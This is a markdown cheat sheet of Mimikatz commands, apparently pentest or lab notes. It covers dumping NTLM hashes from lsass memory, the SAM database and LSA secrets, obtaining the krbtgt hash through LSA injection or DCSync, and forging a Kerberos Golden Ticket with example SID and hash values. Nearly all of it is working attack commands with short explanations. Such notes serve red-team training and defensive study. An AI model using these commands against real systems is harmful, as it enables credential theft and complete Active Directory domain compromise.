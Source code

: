 ```yaml
---
tags: [security, windows, enumeration, exploitation]
---
```


Mimikatz requires Admin privileges to function
Check Privilege : `privilege::debug`  

`log <filename>`: Logs all commands into a log file

---

### Dumping Hashes

LSA : Local Security Authority  
lsass.exe : Local Security Authority Subsystem Service  
SAM : Security Accounts Manager

`sekurlsa::logonpasswords`  
Returns NTLM passwords stored in memory using lsass.exe service  
On older versions of Windows plaintext passwords where returned

`lsadump::sam`  
Dump content of SAM database

`lsadump::lsa`  
Dump LSA credentials  
If NTLM hashes are not shown use the `/patch` option

---

### Kerberos Golden Ticket Attack

For getting the Golden Ticket we need to have access to a user that has some sort of Admin privilege on Active Directory

`lsadump::lsa /inject /name:krbtgt`  
Retrieve the Hash of the krbtgt account from the Domain Controller

`lsadump::dcsync /domain:controller.local /user:krbtgt`  
Fetch Hash of Kerberos account using Dcsync Feature

`kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /id:500`  
Generate a Golden Ticket and add in current session  
`/user` : Can use any name  
`/sid` : Krbtgt user sid  
`/krbtgt` : NTLM Hash  
`/id` : Id of domain admin account (Usually 500)

[Home · gentilkiwi/mimikatz Wiki · GitHub](https://github.com/gentilkiwi/mimikatz/wiki)

---

